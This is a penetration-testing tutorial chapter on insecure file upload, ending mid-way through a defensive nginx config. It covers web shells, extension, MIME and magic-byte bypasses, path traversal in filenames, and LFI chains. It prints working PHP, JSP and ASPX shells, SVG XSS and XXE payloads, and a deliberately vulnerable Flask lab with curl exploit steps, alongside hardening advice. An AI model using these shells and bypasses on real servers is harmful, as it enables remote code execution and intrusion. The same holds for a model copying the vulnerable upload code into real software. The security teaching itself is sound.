






This is Chapter 2 of the Server-Side notebook — Notebook 26. The previous chapter used SSRF to make
the server *fetch* something dangerous; this chapter makes the server *store and then run* something
dangerous. **Insecure file upload** is the vulnerability class where an application accepts a file
from the user and mishandles it so that the attacker's content ends up somewhere the server will
**execute** it (as code) or **serve** it in a harmful way — and the classic, devastating outcome is
the **web shell**: a small script the attacker uploads and then requests in the browser, giving them
arbitrary command execution on the server.

File upload is dangerous because it hands the attacker two things at once: **content** they fully
control (the bytes of the file) and, if the app is careless, **a location and a name** they can
influence (where the file is stored and what it's called). When those combine so that
attacker-controlled bytes land at a URL the web server will run as code, the result is direct remote
code execution — the highest-impact web outcome. Most of the chapter is therefore about the gap
between "the app tries to restrict uploads" and "the restriction is bypassable," because a huge
fraction of real upload bugs are filter-bypass findings rather than wholly-unrestricted uploads.

This chapter builds the model, teaches web shells from scratch, then works through every common
bypass — extension tricks, Content-Type spoofing, magic bytes and polyglots, path traversal in the
filename — with a reproducible lab that builds a filter and then defeats it. Everything is
**authorized-only**: uploading a web shell is planting code that executes on someone else's server,
so you do it exclusively in labs you own or engagements that explicitly permit it, use a *benign*
proof payload (print a fixed string / `id`) rather than a full interactive shell, and remove any file
you plant. Achieving code execution is the finding; using it to explore the host beyond a
proof-of-concept is a separate, scoped action.

## Part 1: What Makes an Upload Dangerous — Content Meets Location

An uploaded file becomes a vulnerability when three conditions align: the attacker controls the
file's **content**, the file lands in a **location** the server treats specially (a directory that
executes scripts, or one whose files are served to other users), and the file is **retrievable/
triggerable** by the attacker. The most dangerous case is when all three hold for an *executable*
file type.



The outcomes, in rough order of severity:

- **Remote code execution via web shell** — upload a `.php`/`.jsp`/`.aspx` script into a
  web-servable, script-executing directory, then browse to it to run commands. The flagship outcome.
- **Overwriting sensitive files** — path traversal in the filename lets the upload land as
  `../../.htaccess`, `../config.php`, `authorized_keys`, or a cron file — enabling code execution or
  auth bypass indirectly.
- **Stored XSS / content injection** — upload an HTML or SVG file served on the same origin; when a
  victim views it, script runs in the app's origin (ties to Notebook 24). Even an image's metadata or
  filename can carry XSS.
- **Parser exploitation** — the *processing* of the upload (image resizing, XML parsing, archive
  extraction) is itself vulnerable: ImageMagick "ImageTragick", SVG-driven XXE/SSRF (Chapter 1),
  zip-slip in archive extraction.
- **Denial of service** — decompression bombs (zip/xml bombs), huge files, pixel-flood images.

**The core question for every upload feature:** *can I get a file whose content I control into a place
where the server will execute it, or serve it dangerously, under a name I can reach?* The rest of the
chapter is the techniques for answering "yes" against increasingly careful defenses.

## Part 2: Web Shells From Zero

A **web shell** is a script written in a language the web server executes (PHP, JSP, ASP/ASPX, and
others), which takes a command from the request and runs it on the server, returning the output.
Uploading one into an executable directory and requesting it gives interactive command execution.

The minimal PHP web shell — understand every piece:

```php
<?php system($_GET['cmd']); ?>
```

- `<?php ... ?>` — PHP code delimiters; the server's PHP engine runs whatever is between them when the
  file is requested with a `.php` (executable) extension in a script-enabled directory.
- `system(...)` — a PHP function that executes an OS command and streams its output to the response.
- `$_GET['cmd']` — reads the `cmd` query parameter; the attacker supplies the command in the URL.

Requesting `http://target/uploads/shell.php?cmd=id` runs `id` on the server and returns its output.
Equivalent primitives in other stacks:

```jsp
<%-- JSP (Java) --%>
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

```aspx
<%-- ASPX (.NET) --%>
<% System.Diagnostics.Process.Start("cmd.exe","/c " + Request["cmd"]); %>
```

**Proof-of-concept discipline.** For a report you do **not** need a full interactive shell — a benign
payload that proves execution is enough and is far safer:

```php
<?php echo "RCE-PROOF-4f9a"; echo shell_exec("id"); ?>
```

This prints a unique marker and the result of `id` (the server's user) — unambiguous proof of code
execution without deploying an interactive backdoor. **Bug-bounty relevance:** demonstrate RCE with a
fixed marker and a single innocuous command (`id`, `whoami`, `hostname`), screenshot it, and stop —
never install a persistent shell, pivot, or touch data. The finding is "arbitrary code execution via
file upload."

**Weaponized shells (context only).** Tools like `weevely` (PHP), and frameworks that generate
`msfvenom` web payloads, produce stealthy, feature-rich shells; in authorized red-team work these are
used within scope. For learning and for bounty PoCs, the one-line marker shell above is the
right, minimal choice — this chapter keeps offensive payloads lab-scoped and non-destructive.

## Part 3: Unrestricted Upload — The Baseline, and Why Filters Exist

The simplest case: the app applies **no** meaningful restriction, so you upload `shell.php` directly
into a web-accessible directory and request it. This still exists (especially in custom admin panels,
legacy CMS plugins, and internal tools), and it's an instant critical.

Because unrestricted upload is so dangerous, applications add defenses — and those defenses, and their
bypasses, are the real subject of upload testing. The common defenses, each of which the following
parts defeat:

| Defense | Idea | Where it fails (preview) |
|---|---|---|
| **Extension blocklist** | Reject `.php`, `.jsp`, ... | Alternate extensions, case, double-ext, null byte (Part 4) |
| **Extension allowlist** | Only permit `.jpg`, `.png` | Double extensions, parser quirks, `.htaccess` tricks (Part 4) |
| **Content-Type check** | Require `image/jpeg` etc. | `Content-Type` is client-set — spoof it (Part 5) |
| **Magic-byte check** | Verify file signature | Prepend valid magic bytes / polyglots (Part 6) |
| **Image re-processing** | Resize/re-encode to strip payloads | Strong — but parser bugs / non-image types (Part 6) |
| **Filename handling** | Store under a random name | If path/extension leaks through → traversal (Part 7) |
| **Storage location** | Outside web root / no exec | Strong — the actual fix (Part 9) |

The pattern to internalise: **most upload defenses check the wrong thing (the name, the client-declared
type) or check the right thing weakly.** The robust defenses (store outside the web root, render inert,
re-encode, random names) are the exception, and where they're missing or partial, a bypass exists.

## Part 4: Extension-Based Bypasses

The most common defense is checking the file **extension**, and it fails in many ways because the
mapping from "extension" to "does the server execute this" is messier than developers assume.

**Blocklist gaps — alternate executable extensions.** A blocklist of `.php` misses the many other
extensions a PHP engine may execute depending on configuration:

```text
.php .php3 .php4 .php5 .php7 .pht .phtml .phar .phps .inc
```

For other stacks: `.asp`, `.aspx`, `.asa`, `.cer`, `.cshtml` (.NET); `.jsp`, `.jspx`, `.jsw`, `.jsv`,
`.jspf` (Java); `.pl`, `.cgi` (Perl/CGI). If the blocklist forgets `.phtml` or `.phar`, upload the
shell with that extension.

**Case variation.** A case-sensitive blocklist misses `shell.PHP`, `shell.PhP`, `shell.pHp` — on a
case-insensitive filesystem/handler these still execute.

**Double extensions.** Some server configs execute a file if *any* extension in the name is a script
extension (Apache's older `AddHandler`/`mod_mime` multi-extension behaviour): `shell.php.jpg` or
`shell.jpg.php` can be treated as PHP. Allowlists that only check the *last* extension are beaten by
`shell.php.jpg` on such servers; blocklists that only check the last are beaten by `shell.jpg.php`.

**Null-byte and trailing-character tricks (legacy).** Older stacks truncated the filename at a null
byte, so `shell.php%00.jpg` passed a `.jpg` allowlist but was saved/executed as `shell.php`. Trailing
characters that the validator strips differently from the filesystem — `shell.php.` (trailing dot),
`shell.php%20` (space), `shell.php/`, `shell.php::$DATA` (Windows NTFS alternate data stream), or
trailing whitespace/newline — can dodge the check while the OS stores an executable name.

**The `.htaccess` / `web.config` trick.** If you can upload an `.htaccess` (Apache) or `web.config`
(IIS) into the upload directory, you can *reconfigure the server to execute your chosen extension*.
Upload `.htaccess` containing `AddType application/x-httpd-php .jpg`, then upload `shell.jpg` — now
`.jpg` runs as PHP. This defeats extension allowlists entirely by changing what "executable" means.



| Bypass | Example filename | Beats |
|---|---|---|
| Alternate extension | `shell.phtml`, `shell.phar`, `.pht`, `.php5` | Incomplete blocklist |
| Semicolon/params (IIS) | `shell.asp;.jpg` | IIS legacy handler parsing |
| Unicode / overlong | homoglyph or overlong-encoded `.php` | Normalisation differences |
| Case | `shell.PhP` | Case-sensitive blocklist |
| Double extension | `shell.php.jpg` / `shell.jpg.php` | Last-extension-only checks |
| Null byte (legacy) | `shell.php%00.jpg` | Allowlist + C-string truncation |
| Trailing chars | `shell.php.`, `shell.php%20`, `shell.php::$DATA` | Validator/FS mismatch |
| Config file | `.htaccess` → `AddType ... .jpg` | Extension allowlist entirely |

## Part 5: Content-Type and Client-Side Bypasses

Many apps check the **`Content-Type`** (MIME type) of the upload, requiring e.g. `image/jpeg`. But the
`Content-Type` in a multipart upload is **set by the client** — the attacker — so it's trivially
spoofed. In Burp, intercept the upload and change the part's `Content-Type` header while keeping the
malicious body:

```http
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=---X

-----X
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: image/jpeg          <- spoofed; the body is still PHP

<?php system($_GET['cmd']); ?>
-----X--
```

The server sees `image/jpeg` and accepts, but the bytes are a PHP shell. Any defense that trusts the
client-declared MIME type is defeated this way — the same "never trust the client" principle from the
business-logic chapter (Notebook 25 Ch5).

**Client-side-only validation.** If the extension/type check runs in JavaScript before upload (to give
users quick feedback), it's irrelevant to security — submit the request directly (Burp/curl),
bypassing the page's JS entirely:

```bash
curl -s -F "file=@shell.php;type=image/jpeg" http://target/upload
# -F sends a multipart file part; ;type= sets the Content-Type; the JS validation never runs
```

**Bug-bounty relevance:** always test the raw request, not the browser flow — client-side upload
validation is common and provides zero server-side protection. The finding is often "server relies on
client-side/Content-Type validation only."

## Part 6: Magic Bytes, Polyglots, and Image-Embedded Shells

Stronger apps inspect the file's **content** — the "magic bytes" (signature) at the start that
identify the real type (`\xFF\xD8\xFF` for JPEG, `\x89PNG` for PNG, `GIF89a` for GIF). This is better
than trusting the extension/MIME, but it's still bypassable because a file can be *both* a valid image
*and* contain executable code.

**Prepending magic bytes.** If the check only verifies the signature, prepend valid magic bytes to
your shell so it "looks like" an image while still being parsed as PHP when executed:

```php
GIF89a
<?php system($_GET['cmd']); ?>
```

`GIF89a` is a valid GIF signature; a signature-only check passes, and if the file is served/executed
as PHP (via a bypassed extension, Part 4), the PHP engine ignores the leading text and runs the code.

**Polyglots.** A **polyglot** file is valid in two formats simultaneously — e.g. a real JPEG whose
comment/EXIF segment contains a PHP payload, so it passes strict image validation *and* executes as
PHP. The classic is embedding PHP in an image's metadata:

```bash
# Embed a PHP payload in a JPEG's EXIF comment — file remains a valid, viewable image AND carries code.
exiftool -Comment='<?php system($_GET["cmd"]); ?>' cat.jpg -o shell.jpg
# If the server executes shell.jpg as PHP (via .htaccess or a double-extension), the comment runs.
```

The payload survives because image validators check structure, not comment contents; it executes only
if you *also* get the file treated as PHP. This is why magic-byte checks alone are insufficient — the
robust defense is **re-encoding** the image (Part 9), which strips embedded payloads.

**SVG and XML-based uploads.** SVG is XML, so an "image" upload that accepts SVG opens XXE and stored
XSS: an SVG with `<script>` runs as XSS when viewed same-origin, and an SVG/XML with an external entity
drives XXE/SSRF (Chapter 1):

```xml
<svg xmlns="http://www.w3.org/2000/svg"><script>alert(document.domain)</script></svg>
<!-- served on the app origin → stored XSS -->
<?xml version="1.0"?><!DOCTYPE s [<!ENTITY x SYSTEM "file:///etc/passwd">]><svg>&x;</svg>
<!-- XXE file read via an "image" upload -->
```

**ImageMagick / processing exploits.** If the server *processes* uploads with ImageMagick, historical
bugs (ImageTragick, CVE-2016-3714) allowed RCE via crafted image files that abused delegate handling —
a reminder that the *processor* is attack surface, not just the storage.



## Part 7: Path Traversal in the Filename — Controlling Where It Lands

Even if the *content* is controlled, an upload is far more dangerous if the attacker controls **where**
it's written. If the server builds the storage path from the client-supplied filename without
sanitising it, a filename with `../` sequences escapes the intended upload directory (this is the path-
traversal class covered fully in Chapter 3):

```http
Content-Disposition: form-data; name="file"; filename="../../../../var/www/html/shell.php"
```

If honoured, the file lands in the web root regardless of where uploads "should" go — turning even an
upload folder that's outside the web root into RCE, or letting you overwrite sensitive files
(`.htaccess`, `authorized_keys`, a config or cron file). Combine with the extension bypasses (Part 4)
as needed.

The traversal can also target the *name* to overwrite an existing file (clobbering a legitimate script
with your payload) or to plant a config file that changes execution (`../.htaccess`). **Defense:**
never use the client filename for the storage path — generate a server-side random name, store in a
fixed directory, and canonicalise/validate any path component (Part 9). **Bug-bounty relevance:**
filename path traversal on upload is a frequent escalator that converts a "safe" upload location into a
web-root write.

## Part 8: Hands-On Lab — Build a Filter, Then Defeat It

A reproducible lab: a deliberately weak upload endpoint you attack with the Part 4–7 bypasses, then
harden. Local and yours.

### 8.1 The vulnerable app

```python
# upload_app.py — INTENTIONALLY VULNERABLE. Lab only. Uploads served from ./uploads as PHP-like.
from flask import Flask, request, send_from_directory
import os, subprocess
app = Flask(__name__)
UP = "uploads"; os.makedirs(UP, exist_ok=True)
BLOCK = [".php", ".jsp", ".aspx"]                    # BUG: incomplete blocklist, last-ext only

@app.route("/upload", methods=["POST"])
def upload():
    f = request.files["file"]
    name = f.filename
    ext = os.path.splitext(name)[1].lower()
    if ext in BLOCK:                                  # BUG: misses .phtml/.pht; checks last ext only
        return "blocked extension", 403
    if request.form.get("ctype") and "image" not in f.mimetype:  # BUG: trusts client mimetype
        return "not an image", 403
    path = os.path.join(UP, name)                     # BUG: uses client filename (traversal)
    f.save(path)
    return f"saved to /files/{name}", 200

@app.route("/files/<path:name>")
def files(name):
    # Simulate a server that "executes" .phtml/.php via a naive handler (lab only)
    full = os.path.join(UP, name)
    if name.endswith((".phtml", ".php")) and os.path.exists(full):
        src = open(full).read()
        if "system(" in src or "shell_exec(" in src:
            cmd = request.args.get("cmd", "id")
            return subprocess.run(cmd, shell=True, capture_output=True, text=True).stdout  # "PHP exec"
    return send_from_directory(UP, name)

if __name__ == "__main__": app.run(port=5000)
```

### 8.2 Exploit 1 — blocklist gap (alternate extension)

The blocklist forgets `.phtml`:

```bash
printf '<?php system($_GET["cmd"]); ?>' > shell.phtml
curl -s -F "file=@shell.phtml" http://127.0.0.1:5000/upload
# -> saved to /files/shell.phtml
curl -s "http://127.0.0.1:5000/files/shell.phtml?cmd=id"
# -> uid=1000(...) ...      code execution (alternate executable extension)
```

### 8.3 Exploit 2 — Content-Type spoof (if allowlist added)

Against a MIME check, spoof the type while keeping the payload:

```bash
curl -s -F "file=@shell.phtml;type=image/jpeg" -F "ctype=1" http://127.0.0.1:5000/upload
# server sees image/jpeg (client-set) but the body is a shell
```

### 8.4 Exploit 3 — magic-byte prepend / polyglot

If a signature check is added, prepend a GIF header:

```bash
printf 'GIF89a\n<?php system($_GET["cmd"]); ?>' > shell.gif.phtml
curl -s -F "file=@shell.gif.phtml;type=image/gif" http://127.0.0.1:5000/upload
curl -s "http://127.0.0.1:5000/files/shell.gif.phtml?cmd=whoami"     # passes signature, executes
```

### 8.5 Exploit 4 — path traversal in the filename

```bash
# Land the file outside the uploads dir (here, one level up) using ../ in the multipart filename:
curl -s -F 'file=@shell.phtml;filename=../evil.phtml' http://127.0.0.1:5000/upload
# If honoured, evil.phtml lands outside ./uploads — in a real app, into the web root
```

### 8.6 The fixes, demonstrated

```python
import secrets
ALLOWED_EXT = {".jpg", ".png", ".gif"}
@app.route("/upload", methods=["POST"])
def upload():
    f = request.files["file"]
    ext = os.path.splitext(f.filename)[1].lower()
    if ext not in ALLOWED_EXT:                         # ALLOW-list, not block-list
        return "type not allowed", 403
    # verify REAL content type by inspecting bytes (e.g. python-magic / Pillow open), not client MIME
    # re-encode images to strip embedded payloads:
    from PIL import Image; import io
    img = Image.open(f.stream); buf = io.BytesIO(); img.save(buf, format=img.format)  # re-encode
    # random server-side name; fixed dir; NEVER the client filename:
    name = secrets.token_hex(16) + ext
    open(os.path.join(UP, name), "wb").write(buf.getvalue())
    return f"saved as {name}", 200
```

With an extension **allow-list**, real content verification, image **re-encoding** (which strips the
polyglot/EXIF payload), a **random server-generated name** (killing traversal and predictable paths),
and — in production — storage **outside the web root** with execution disabled, all four exploits fail.

### 8.7 PortSwigger file-upload drills

```text
- "Remote code execution via web shell upload"                      → Part 2/3 baseline
- "Web shell upload via Content-Type restriction bypass"            → Part 5
- "Web shell upload via path traversal"                             → Part 7
- "Web shell upload via extension blacklist bypass" (.htaccess)     → Part 4
- "Web shell upload via obfuscated file extension"                  → Part 4 (null byte/trailing)
- "Remote code execution via polyglot web shell upload"             → Part 6
- "Web shell upload via race condition"                             → Part 8 note below
```

**Upload race conditions** (ties to Notebook 25 Ch5): some servers upload the file, *then* validate and
delete it if bad — leaving a brief window where the file is present and executable. Racing a request to
the file's URL during that window executes it before deletion. Exploit with the single-packet attack /
parallel requests.

## Part 9: Finding Upload Functionality and a Testing Methodology

Upload bugs are found by locating every place the app accepts a file and then walking a fixed bypass
sequence against each. Coverage matters because a single missed upload endpoint (an old admin panel, a
profile avatar, a support-ticket attachment) is often the one that's unrestricted.

**Where uploads hide.** Beyond the obvious "upload" button: profile/avatar images, document/attachment
uploads (support tickets, messages, applications), "import from file" (CSV/XLSX/JSON), resume/CV
parsers, bulk-import and data-migration tools, rich-text editors with drag-drop/paste-image, API
endpoints accepting `multipart/form-data` or base64 blobs, and any feature that produces a file the
app later serves or processes. Proxy all traffic and grep the sitemap for `multipart/form-data`
requests and `filename=` parameters.

**The bypass sequence per endpoint.** For each upload, determine the defense and walk its bypasses:



**Finding where the file landed.** Half the battle after a successful upload is *retrieving* it. The
response often reveals the stored path or name; if not, look for it in the file listing, guess common
upload paths (`/uploads/`, `/files/`, `/media/`, `/avatars/`, `/tmp/`), check the image `src` the app
renders, or use content-discovery (`ffuf`, Notebook 25 Ch1) against likely directories. If the app
renames files to random values, you need the returned name — a random name you can't guess *is* a
partial mitigation, which is why servers should return as little as possible.

**Confirming execution vs serving.** Once retrieved, distinguish outcomes: if requesting the file
*runs* it (your `id` output comes back), it's RCE; if it's *served* as-is (you see the source, or an
SVG renders script), it's stored XSS/XXE/traversal territory. Both are findings; the execution case is
the critical one.

**Reporting discipline.** Prove RCE with the benign marker shell (`echo "PROOF"; system("id")`), one
screenshot of the marker + `id` output, and the exact upload request and retrieval URL. Delete the
planted file afterward and note it in the report. Never deploy an interactive/persistent shell or
explore the host beyond the single proof command — the finding is the *ability* to execute, not what
you do with it.

## Part 10: Execution Contexts and Non-Obvious Paths to Code

Whether an uploaded file *executes* depends on the server's configuration and the stack, and several
non-obvious paths turn a "can't upload PHP" situation into RCE anyway. Understanding execution context
is what separates "I uploaded a file" from "I got a shell."

**What actually makes a file execute.** A `.php` file only runs if it's (a) in a directory the web
server maps to the PHP handler and (b) requested via the web server. Uploads that land outside the web
root, or in a directory with execution disabled, don't run — which is exactly why "store outside the
web root" is the strong defense. Conversely, the bypasses matter *because* they get an executable file
into an executing location. Always reason about the *target stack*: PHP (`system`), Java/JSP
(`Runtime.exec`), .NET/ASPX (`Process.Start`), Node (if a route `require`s uploaded files), Python
(pickle/`eval` of uploaded data), and Ruby (ERB template uploads) each have their own executable file
types and sinks.

**LFI-to-RCE via upload.** A frequent chain (ties to Chapter 3): the app has a *local file inclusion*
that will `include`/execute a file by path, and a separate upload that stores your file *somewhere on
disk* (even outside the web root, even as a `.jpg`). You upload a polyglot image containing PHP, then
use the LFI to *include* that uploaded file by its path — the LFI's `include()` executes the PHP inside
your image regardless of its extension or location. Upload + LFI = RCE even when neither alone
suffices.

**Log poisoning (upload-adjacent).** Another LFI-to-RCE partner: inject PHP into a log the server
writes (e.g. a `User-Agent` header containing `<?php ... ?>` lands in the access log), then LFI-include
the log file to execute it. Not strictly an upload, but the same "get your code onto disk, then get it
included" pattern, and worth testing wherever an LFI exists.

**Session-file and temp-file inclusion.** PHP session files (`/var/lib/php/sessions/sess_<id>`) and
uploaded temp files (`/tmp/php*`) can, in some configurations, be written with attacker-controlled
content and then included via LFI — another way "an upload plus an include" becomes execution.

**Client-side execution contexts.** If the "upload" is served rather than executed, the execution
context is the *victim's browser* in the app origin: an HTML/SVG upload is stored XSS (Notebook 24), a
malicious PDF opened inline can carry JavaScript, and a crafted filename reflected unescaped is XSS in
the file listing. The context determines the vulnerability class — server execution → RCE, browser
execution → XSS.



**Security relevance:** when a direct web-shell upload is blocked, do not conclude "no RCE" — check for
an LFI to pair with a benign-looking upload, for log/session poisoning, and for the actual storage
location and handler mapping. The next chapter (Path Traversal, LFI & RFI) provides the inclusion side
of these chains; upload provides the "get code on disk" side, and together they're a classic RCE combo.

## Part 11: Detection & Defense Angle

Secure file upload is about *not trusting attacker-controlled name/type* and *rendering uploads inert*.
In priority order:

**1. Store uploads outside the web root, or in a non-executing location.** The single most effective
control: if uploaded files can't be requested as URLs that the server executes (serve them from a
separate domain/CDN, an object store, or a directory with script execution disabled), a web shell
can't run even if uploaded. Configure the upload directory to *never* execute scripts (`php_admin_flag
engine off`, no `AddHandler`, IIS handler removal, `X-Content-Type-Options: nosniff` + forced download).

**2. Allow-list extensions and verify real content.** Permit only the specific extensions you need
(allow-list, never blocklist), and verify the *actual* content matches (parse the image, check magic
bytes server-side) — not the client `Content-Type`. Reject anything that doesn't parse as the claimed
type.

**3. Re-encode/transform uploads.** For images, re-encode (decode then re-save) to strip embedded
payloads/polyglots/EXIF code; for documents, convert/sanitise. Re-encoding defeats the Part 6 polyglot
class outright.

**4. Generate server-side random filenames in a fixed directory.** Never use the client filename for
storage; this kills path traversal (Part 7), overwrite attacks, and predictable-path retrieval.
Canonicalise and validate any path component you must use.

**5. Constrain and scan.** Enforce size limits (anti-DoS/zip-bomb), validate archives against zip-slip
(reject entries with `../` or absolute paths during extraction), keep image/XML processors patched
(ImageTragick, XXE — disable external entities), and antivirus-scan where appropriate.

**6. Serve uploads safely.** Send `Content-Disposition: attachment` and `X-Content-Type-Options:
nosniff` for user files so browsers download rather than render them (prevents stored-XSS via
HTML/SVG); host user content on a separate origin so any script that does run isn't in the app's
origin.

**Reference: making an upload directory inert.** Even a perfectly-validated upload should land
somewhere the server refuses to execute — the belt-and-braces control. Concretely:

```apache
# Apache — disable script execution and force downloads in the uploads directory.
<Directory /var/www/uploads>
    php_admin_flag engine off          # no PHP execution
    RemoveHandler .php .phtml .phar .php3 .php4 .php5 .pht
    RemoveType .php .phtml .phar
    Header set X-Content-Type-Options "nosniff"
    Header set Content-Disposition "attachment"   # browsers download, don't render (kills SVG/HTML XSS)
    # And do NOT allow .htaccess overrides here:  AllowOverride None
</Directory>
```

```nginx
# Nginx — serve uploads statically only; never pass them to a PHP/FastCGI handler.
location /uploads/ {
    location ~ \.(php|phtml|phar|jsp|aspx)$ { deny all; }   # never execute
    add_header X-Content-Type-Options nosniff;
